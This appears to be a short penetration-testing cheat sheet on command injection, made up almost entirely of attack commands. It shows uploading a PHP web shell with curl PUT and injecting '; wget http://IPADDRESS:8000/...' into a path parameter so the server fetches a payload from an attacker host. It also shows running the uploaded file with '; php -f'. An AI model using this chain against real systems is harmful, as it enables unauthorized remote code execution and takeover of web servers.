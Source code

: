 # 💉 Command Injection Cheat Sheet

#### **File Traverse:**

* ```
  website.com/file.php[?path=/]
  ```

#### **Test HTTP options using curl:** <a href="#toc475369021" id="toc475369021"></a>

* ```
  curl -vX OPTIONS [website]
  ```

#### **Upload file using CURL to website with PUT option available** <a href="#toc475369022" id="toc475369022"></a>

* ```
  curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0
  ```

#### **Transfer file** (Try temp directory if not writable)(wget -O tells it where to store): <a href="#toc475369023" id="toc475369023"></a>

* ```
  ?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;
  ```

#### **Activate shell file:** <a href="#toc475369024" id="toc475369024"></a>

* ```
  ; php -f filelocation.php;
  ```

\
